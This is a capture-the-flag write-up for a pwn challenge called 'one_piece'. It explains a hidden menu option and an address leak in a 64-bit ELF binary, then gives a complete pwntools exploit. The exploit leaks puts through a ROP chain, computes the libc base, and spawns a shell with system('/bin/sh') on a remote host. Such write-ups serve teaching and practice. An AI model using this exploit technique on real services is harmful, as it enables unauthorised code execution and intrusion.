 
![task1](imgs/1.png)
### Information
We were given a 64bit ELF file.
When we run the binary, the program is showing a menu , ( read run and exit ). The run function is useless, so we can only perform the read operation.

But when decompiling the binary, we have one more option that is not shown in the menu message, which is "gomugomunomi" that calls mugiwara function.

The mugiwara function seems a bit complicated,first it initialize an integer variable named # len to 40.

Then it's copying each char of the buffer that we've read from the readSC function into another buffer.Inside the loop, it's checking if the char is 'z' 
![task1](imgs/2.png)

Running the binary, we can see that it's leaking an address, then asking for an input.

![task1](imgs/3.png)


### Exploitation
- Determine libc version (using [libc blucat](https://libc.blukat.me/) as an example)
- Calculate libc base address
- find /bin/bash address
- system("/bin/bash")
```python
from pwn import *
from time import sleep
#p = process("./one_piece")
p = remote("100.26.85.87",1238)
#libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
libc = ELF('libc6_2.30-0ubuntu2_amd64.so')
payload = "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaazz"
p.sendline("read")
p.sendline(payload)
p.sendline("gomugomunomi")
p.recvuntil("right ? : ")
leak = int("0x" + p.recvline(),16)
binaire = leak - 0xa3a
puts_plt = binaire + 0x720
printf_plt = binaire + 0x1040
#Gadgets
poprdi = binaire + 0xba3
ret = binaire + 0x000000000000070e

log.info("binary base = "+hex(binaire))
pause()
payload = ""
payload += cyclic(56)
payload += p64(ret)
payload += p64(poprdi)
payload += p64(binaire+0x201fa0) #puts_got
payload += p64(puts_plt)
payload += p64(binaire+0x7a0) #_start

p.sendline(payload)
p.recvline()

leaklibc = u64(p.recvline().ljust(8,"\x00")) % 0xa000000000000
print "leaklibc = ",hex(leaklibc)
base = leaklibc - libc.symbols['puts']
log.info("libc base = "+hex(base)) 
p.sendline("read")
p.sendline("A"*37 + "zz")
p.sendline("gomugomunomi")
sleep(2)
system = base + libc.symbols['system']
binsh = base + libc.search("/bin/sh").next()
log.info("/bin/sh = "+hex(binsh))
log.info("system = "+hex(system))
payload = ""
payload += cyclic(56)
payload += p64(ret)
payload += p64(poprdi)
payload += p64(binsh)
payload += p64(system)
payload += p64(leak+0x5)
p.sendline(payload)
log.warn("sending payload ...")
p.sendline("cat flag.txt")
p.interactive()
```
